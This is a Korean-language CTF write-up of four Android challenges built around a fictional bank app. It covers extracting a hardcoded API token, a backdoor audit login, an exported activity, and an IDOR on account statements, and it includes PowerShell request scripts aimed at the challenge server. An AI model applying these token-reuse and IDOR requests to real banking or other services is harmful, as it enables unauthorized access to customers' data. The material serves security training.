

# De Monne Slayer



# 0. 개요

[다운로드](https://deadface.sfo3.cdn.digitaloceanspaces.com/2026/challenges/demonneslayer/app-release.zip) 

De Monne Slayer 문제는 4개의 문제로 되어 있으며 모바일 apk 파일을 분석해 하드코딩된 키, 설정 오류를 파악해 flag를 획득하는 문제

# 1. apk 파일

APK(Android Package Kit)는 안드로이드 앱을 설치하기 위한 패키지 파일로 사실상 zip파일에서 확장자만 바꾼 것, ipa

```bash
app.apk
├── AndroidManifest.xml   # 앱 설정 및 권한
├── classes.dex           # 컴파일된 앱 코드(opcode)
├── resources.arsc        # 리소스 정보
├── res/                  # 이미지, UI 리소스
├── assets/               # 추가 데이터
├── lib/                  # 네이티브 라이브러리
└── META-INF/             # 서명 관련 정보 등
```

### AndroidManifest.xml — 앱 설정 및 권한

- 앱이 요청하는 권한 (`INTERNET`, `CAMERA` 등)
- 앱의 진입점 (`MainActivity` 등)
- Activity, Service, BroadcastReceiver 선언
- 다른 앱에서 접근할 수 있는 컴포넌트 설정 (`exported`)

### classes.dex — 앱 실행 코드

- Java/Kotlin에서 컴파일된 바이트코드
- 로그인, 인증, 암호화 등의 로직
- 함수 호출과 조건문
- API 요청 및 데이터 처리

## 1-1. app-release.apk


classes.dex


## 1-2.  jadx(정적 분석)

`JADX`는 APK 파일을 분석하는 데 사용하는 오픈소스 디컴파일러(DEX → Java 코드 디컴파일), mcp도 가능(플러그인)


보통 `AndroidManifest.xml`에서 시작해서  Activity의 클래스 이름을 확인하고 JADX에서 해당 클래스를 찾아 분석, 여기서 activity는 화면 


---

# 1. Hard Kept Secrets

드몬 파이낸셜(De Monne Financial)은 최신 안드로이드 모바일 애플리케이션 버전과 관련된 여러 보안 사고를 겪었습니다. 민감한 사용자 데이터가 잇따라 유출되고 있습니다. 드몬 측은 DEADFACE가 어떻게 자사 API에 접근했는지 파악하지 못하고 있습니다. 비밀번호 유출 여부는 아직 단정하기 이르며, 우선 앱에 하드코딩된 비밀 키가 있는지 확인해야 합니다.

여러분의 임무는 **APK에서 내부 API 토큰을 복구하는 것입니다.** 복구한 토큰을 플래그로 제출하세요.

- Jadx에서 sring 검색


# 2.  inside Man

유출된 정보에 따르면 DEADFACE는 일반 사용자가 앱에서 접근할 수 없는 데이터를 획득한 것으로 나타났습니다. 백엔드에서 로깅 기능이 꺼져 있어 드 모네는 어떤 계정이 사용되었는지 확신할 수 없다고 밝혔습니다. **DEADFACE는 개발자 계정을 해킹했거나, 앱에 손쉽게 접근할 수 있도록 하는 코드가 하드코딩**되어 있을 가능성이 있습니다.

- 분석


id :audit@demonne-financial.local

pw : audit@demonne-financial.local

attemptLogin→performInternalLogin→ApiClient.getService()→api추가 →post api/auth/login


- powershell로 요청

```powershell
$headers = @{
    'X-Internal-Token' = 'zqJRlVwBA9Xm2lE5EPjgbj/4rOxlkYZgDtkdP7jV80rZgLFrlnOEn+VAu31YKQrR'
}

$body = @{
    email = 'audit@demonne-financial.local'
    password = 'demonnefinancial'
} | ConvertTo-Json

$login = Invoke-RestMethod `
    -Uri 'http://dmf.dctf.io:8081/api/auth/login' `
    -Method Post -Headers $headers -ContentType 'application/json' -Body $body

$headers.Authorization = 'Bearer ' + $login.token
$statements = Invoke-RestMethod `
    -Uri 'http://dmf.dctf.io:8081/api/accounts/1007/statements' `
    -Headers $headers

$statements | Select-Object account_id, summary
```

# 3. Diagnosis

드몬느 개발자 중 한 명은 매니페스트 설정 오류로 인해 앱에서 숨겨진 활동이 발생하고 있을 가능성이 있다고 의심하고 있습니다.

- AndroidManifest.xml에는 DiagnosticActivity에 android:exported="true"로 설정
- android:exported="true"는 외부 앱이나 ADB가 그 화면을 직접 실행 가능


- DiagnosticActivity

```powershell
/* JADX INFO: loaded from: classes.dex */
public class DiagnosticActivity extends AppCompatActivity {
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(R.layout.activity_diagnostic);
        ((TextView) findViewById(R.id.tvDiagOutput)).setText("build.version   : 2.4.1 (5)\nbuild.env       : production\nbuild.timestamp : 2026-01-14T09:00:00Z\napi.endpoint    : http://dmf.dctf.io:8081\ndevice.model    : " + Build.MODEL + "\ndevice.sdk      : " + Build.VERSION.SDK_INT + "\ndevice.id       : " + Build.ID + "\n\n━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━\ndiagnostic.code : deadface{flaG_ManIfesT3d}\n━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━\n\nstatus          : internal build — not for distribution\n");
    }
}
```


# 4. No Holding Back

DEADFACE는 De Monne의 고객 여러 명의 은행 계좌 정보를 빼낼 수 있었습니다. **앱의 로직에 어떤 문제가 있는 건지 모르겠지만, DEADFACE는 원하는 거의 모든 사용자의 정보를 수집할 수 있는 것 같습니다**. DEADFACE는 De Monne의 고객 데이터에 접근했다는 증거로 플래그를 남겨두었다고 주장합니다. 하지만 문제는 그 플래그를 단 사용자가 누구인지(또는 비밀번호가 무엇인지) 알 수 없다는 것입니다.

- DashboardActivity→ getaccount→ StatementActivity.onCreate()→ getStatements(id)
- APIService


id 값을 변경해서 요청시에 검증 x → IDOR취약점이 있을 수 있음

```powershell
$headers = @{
    'X-Internal-Token' = 'zqJRlVwBA9Xm2lE5EPjgbj/4rOxlkYZgDtkdP7jV80rZgLFrlnOEn+VAu31YKQrR'
}

$body = @{
    email    = 'audit@demonne-financial.local'
    password = 'demonnefinancial'
} | ConvertTo-Json -Compress

$loginResponse = Invoke-RestMethod `
    -Uri 'http://dmf.dctf.io:8081/api/auth/login' `
    -Method Post -Headers $headers `
    -ContentType 'application/json' -Body $body

$headers['Authorization'] = 'Bearer ' + $loginResponse.token

$statements = Invoke-RestMethod `
    -Uri 'http://dmf.dctf.io:8081/api/accounts/1007/statements' `
    -Method Get -Headers $headers

$statements | Select-Object account_id, period, summary
```

GET [http://dmf.dctf.io:8081/api/accounts/1007/statements](http://dmf.dctf.io:8081/api/accounts/1007/statements)